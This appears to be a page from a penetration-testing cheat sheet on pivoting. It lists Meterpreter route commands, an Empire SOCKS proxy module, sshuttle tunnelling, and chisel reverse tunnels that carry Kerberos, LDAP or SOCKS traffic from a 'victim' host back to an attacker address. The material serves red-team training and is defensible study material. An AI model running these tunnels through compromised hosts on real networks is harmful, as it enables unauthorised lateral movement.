 ```powershell


# Meterpreter list all active routes
run autoroute -p 

route #Meterpreter view available networks the compromised host can access
# Meterpreter add route for 192.168.14.0/24 via Session number.
route add 192.168.14.0 255.255.255.0 3 
# Meterpreter delete route for 192.168.14.0/24 via Session number.
route delete 192.168.14.0 255.255.255.0 3 
# Meterpreter delete all routes
route flush 
```

## Empire

```powershell
(Empire) > socksproxyserver
(Empire) > use module management/invoke_socksproxy
(Empire) > set remoteHost 10.10.10.10
(Empire) > run
```

## sshuttle

Transparent proxy server that works as a poor man's VPN. Forwards over ssh. 

* Doesn't require admin. 
* Works with Linux and MacOS.
* Supports DNS tunneling.

```powershell
pacman -Sy sshuttle
apt-get install sshuttle
sshuttle -vvr user@10.10.10.10 10.1.1.0/24
sshuttle -vvr username@pivot_host 10.2.2.0/24 

# using a private key
$ sshuttle -vvr root@10.10.10.10 10.1.1.0/24 -e "ssh -i ~/.ssh/id_rsa" 

# -x == exclude some network to not transmit over the tunnel
# -x x.x.x.x.x/24
```

## chisel


```powershell
go get -v github.com/jpillora/chisel

# forward port 389 and 88 to hacker computer
user@hacker$ /opt/chisel/chisel server -p 8008 --reverse
user@victim$ .\chisel.exe client YOUR_IP:8008 R:88:127.0.0.1:88 R:389:localhost:389 

# SOCKS
user@victim$ .\chisel.exe client YOUR_IP:8008 R:socks
```
